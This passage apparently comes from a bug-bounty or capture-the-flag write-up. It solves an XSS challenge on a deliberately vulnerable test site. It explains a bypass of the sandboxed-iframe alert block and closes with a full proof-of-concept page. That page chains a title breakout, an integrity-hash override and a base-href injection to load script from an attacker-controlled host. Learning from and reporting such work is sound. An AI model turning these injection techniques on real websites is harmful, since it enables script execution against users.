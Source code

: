 **//luvedyp86epw.redir.bugpoc.ninja/files/analytics/js/frame-analytics.js**

```javascript
alert(origin)
```

And we have achieved XSS! 

## Error 3: Sandbox bypass 

However, the alert call was not triggered because of this error:

```
Ignored call to 'alert()'. The document is sandbox, and the 'allow-modals' keyword is not set.
```

Reading up on it, it seems that [sandboxed iframes will block modal dialogs by default](https://googlechrome.github.io/samples/block-modal-dialogs-sandboxed-iframe/). That makes sense security-wise, as I think I have never seen an alert popping from a ClickJacking iframe in the past when I was part of the Bug Bounty Team at my previous company. 

But reading up more on it, it seems that you can actually bypass this by simply adding `window.parent.` property to the alert call, *given that we control the parent window*.

Modifying the payload on our website:

```javascript
window.parent.alert(origin)
```

After changing the relevant hash mentioned above, we are finally able to achieve XSS and pop the origin alert!

## Final Payload

**poc.html**
```html
<input type="button" value="Click me" onclick="openPage();"></input>
<script>
function openPage() {
const windowName = "iframe";
let hash = "QkIPs1Inueee8IH+HXpScbWfI0zPgWJvCB9LGWZH/Wc="
var integrityBypass = "<input id='fileIntegrity' value="+encodeURIComponent(hash)+">"
var baseBypass = "<base href='https://syj51lgsbnsk.redir.bugpoc.ninja'>"
var payload = "Test</title>"+integrityBypass+baseBypass
const otherTab = window.open("https://wacky.buggywebsite.com/frame.html?param="+payload, windowName);}
</script>
```

**//syj51lgsbnsk.redir.bugpoc.ninja/files/analytics/js/frame-analytics.js**
```javascript
window.parent.alert(origin)
```

Let's quickly [host our PoC on BugPoC](https://bugpoc.com/testers/front-end) for submission:
